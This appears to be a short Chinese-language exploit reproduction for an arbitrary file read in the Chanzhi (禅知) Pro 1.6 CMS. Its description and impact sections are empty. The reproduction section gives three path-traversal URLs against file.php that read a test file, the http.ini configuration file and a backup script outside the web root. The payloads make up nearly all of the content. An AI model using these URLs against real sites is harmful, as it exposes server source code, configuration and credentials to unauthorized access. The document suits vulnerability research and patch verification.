


# 禅知 Pro 1.6 前台任意文件读取

> 原文：[http://book.iwonder.run/0day/禅知/1.html](http://book.iwonder.run/0day/禅知/1.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

在网站根目录 C:\xampp\chanzhi\www 新建一个测试文件 test.php



执行 payload 查看文件内容：

```
http://0-sec.org/file.php?pathname=../test.php&t=txt&o=source 
```


执行 payload 来查看程序的配置文件：

```
http://0-sec.org/file.php?pathname=../http.ini&t=txt&o=source 
```



跨目录读取文件（前提是有目录权限）：

```
http://0-sec.org/file.php?pathname=../../bin/php/backup.php&t=txt&o=source 
```

